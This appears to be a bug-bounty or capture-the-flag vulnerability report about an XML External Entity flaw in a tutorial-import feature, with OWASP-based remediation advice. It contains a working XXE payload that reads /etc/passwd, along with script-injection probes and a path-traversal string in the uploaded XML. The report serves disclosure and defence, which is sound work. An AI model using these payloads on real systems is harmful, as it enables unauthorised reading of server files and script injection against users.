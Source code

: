 ## Description

This is a Local File Access (LFA) vulnerability identified in the feature that allows importing an XML file, which is then read on the "my_tutorial" page. The XML parsing does not adequately handle external entities, leading to the potential for XML External Entity (XXE) injection.

## Exploitation

1. **Log in to the application.**
2. **Navigate to the import page:** Go to [Import Tutorial Page](http://zxfgddua.3xploit.me/import_tutorial/).
3. **Upload the following XML file:**
```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<tutorial>
  <title>mytuto</title>
  <creation_date>2024-05-04 07:47:25.636945+00:00</creation_date>
  <published>True</published>
  <text_content>
    <bodyline>
      `&xxe;`
    </bodyline>
    <creation_date>2024-05-04 07:47:25.685583+00:00</creation_date>
  </text_content>
  <picture_content>
    <picture>uploads/2024/05/04/../../../../../etc/<script>alert(1)</script></picture>
    <creation_date>2024-05-04 07:47:25.691269+00:00</creation_date>
  </picture_content>
  <text_content>
    <bodyline>dec stip<script>alert(1)</script></bodyline>
    <creation_date>2024-05-04 07:47:25.696323+00:00</creation_date>
  </text_content>
  <picture_content>
    <picture>uploads/2024/05/04/kittyIcon_gXxlMab.png</picture>
    <creation_date>2024-05-04 07:47:25.701931+00:00</creation_date>
  </picture_content>
</tutorial>
```
4. **Inject a system call in the DOCTYPE to read a file:** This XML payload includes an entity declaration that references the `/etc/passwd` file.
5. **View the imported content:** The content of the `/etc/passwd` file is displayed on the "my_tutorial" page.

## PoC

After following the exploitation steps, the `/etc/passwd` file content is revealed:
![Leaked /etc/passwd](YWH-R303801-image.png)
Here, you can see the leaked content of the `/etc/passwd` file as specified in the exploit.

## Risk

This vulnerability allows attackers to read arbitrary files on the server. The primary risk is to the confidentiality of the company's data, as attackers can access sensitive files, including the application's source code, configuration files, and other sensitive data stored on the server.

## Remediation

Based on the [OWASP XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html), the following steps can be taken to mitigate this vulnerability:

1. **Disable DTDs (External Entities) in the XML parser**: Configure the XML parser to disallow the processing of external entities.
2. **Use a secure XML parser**: Use libraries that handle XML parsing securely by default.
3. **Filter user inputs**: Validate and sanitize all user inputs before processing.
4. **Use less powerful parsers**: If possible, use simpler and less powerful parsers that do not support features that can lead to XXE vulnerabilities, such as JSON parsers.

Example of disabling external entities in Python's `defusedxml` library:
```python
import defusedxml.ElementTree as ET

def parse_xml(xml_string):
    tree = ET.fromstring(xml_string)
    return tree
```

By implementing these measures, you can protect your application from XXE and related vulnerabilities.

# Author
EpitechToulouse-Chocolackteam